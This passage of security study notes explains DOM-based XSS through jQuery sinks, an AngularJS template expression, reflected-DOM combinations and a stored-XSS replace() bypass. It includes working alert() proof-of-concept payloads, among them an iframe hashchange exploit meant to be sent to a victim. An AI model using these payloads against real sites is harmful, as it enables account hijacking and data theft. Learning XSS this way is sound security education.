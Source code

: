 ```
?search=<img src=1 onerror=alert()>
```

### Sources and sinks in 3rd-party dependencies
#### DOM XSS in jQuery
We need to search for sinks which modify DOM elements in jQuery. Example:  
```
$(function() {1"%20onerror=alert()
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
```
Here `attr` changes href parameter. We can change page URL to make `location.search` source to contain malicious JS URL. After it `location.search` will change `back` url to our input which will result in XSS:
```
?returnUrl=javascript:alert(document.domain)
```
Another potentially vulnerable part of jQuery code is `$()` selector in conjunction with `location.hash` source.  
This is often implemented using vulnerable `hashchange` event:
```
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```
In this example `hash` is user-controllable and attacker could inject a XSS vector into `$()` selector
```
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```
`src` attribute points to vulnerable site with empty hash value. When iframe is laoded, XSS vector is appended to the hash, causing hashchange event to fire.  
Script from above must be sent to our victim  

#### DOM-XSS in AngularJS
If angular is used it could be possible toe xecute XSS without angle brackets or events. When a site uses `ng-app` attribute on HTML element, it will be processed with Angular. In such case Angular will execute JS inside double curly braces that can occur direectly in HTML or attributes.  
Example of payload:
```
{{$on.constructor('alert(1)')()}}
```

### DOM-XSS combined with reflected and stored data
Some websites could reflect information from URL to web page or form and in such case XSS could be combined (reflected and DOM-based)
```
eval('var data = "reflected string"');
```
If result is returned in JSON we can use such exploit:
```
\"-alert(1)}//
```
Sometimes stored DOM XSS could occur when website accepts request, stores it somewhere and then uses it as a response somewhere later
```
element.innerHTML = case
<><img src=1 onerror=alert(1)>
```
This payload is helpful when JS uses `replace()` function to validate angle brackets. But in such case it replaces only first sequence of brackets and next runs an exploit.  
